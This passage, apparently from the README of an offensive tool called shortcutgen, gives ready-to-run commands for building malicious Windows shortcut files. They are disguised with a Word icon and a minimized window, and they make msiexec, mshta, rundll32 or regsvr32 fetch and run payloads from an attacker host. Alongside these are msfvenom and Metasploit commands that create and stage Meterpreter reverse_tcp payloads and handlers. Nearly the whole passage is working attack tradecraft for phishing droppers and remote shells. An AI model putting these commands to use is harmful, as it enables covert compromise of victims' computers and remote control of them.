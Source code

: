 Generate the shell link while hosting a webserver to stage a MSI installer (`.msi`) payload to trigger it.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f msi -o payload.msi

$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport <PORT>; exploit"

$ sudo python -m http.server 80

$ shortcutgen -p lnk -c "C:\Windows\System32\msiexec.exe" -a "/quiet /qn /i http://<attacker_IP>/payload.msi" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

Generate the shell link then automatically hosting a staging HTA payload (`.hta`) using `metasploit-framework` exploit module `exploit/windows/misc/hta_server`.

```
$ sudo msfconsole -qx "use exploit/windows/misc/hta_server; set target 2; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvhost <server_IP>; set srvport <server_PORT> exploit"

$ shortcutgen -p lnk -c "C:\Windows\System32\mshta.exe" -a "http[s]://<attacker_IP>/payload.hta" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\Users\Public\" -o payload.lnk
```

Generate the shell link then automatically hosting a staging DLL payload (`.dll`) using `metasploit-framework` exploit module `exploit/windows/smb/smb_delivery`.

```
$ sudo msfconsole -qx "use exploit/windows/smb/smb_delivery; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set file_name payload.dll; set share staging; exploit"

$ shortcutgen -p lnk -c "C:\Windows\System32\rundll32.exe" -a "\\<attacker_IP>\staging\payload.dll,0" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

Generate the shell link then automatically hosting a staging scriptlet payload (`.sct`) using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 3; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; exploit"

$ shortcutgen -p lnk -c "C:\Windows\System32\regsvr32.exe" -a "/s /n /u /i://http://<attacker_IP>:<attacker_PORT>/payload.sct scrobj.dll" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

#### Linux
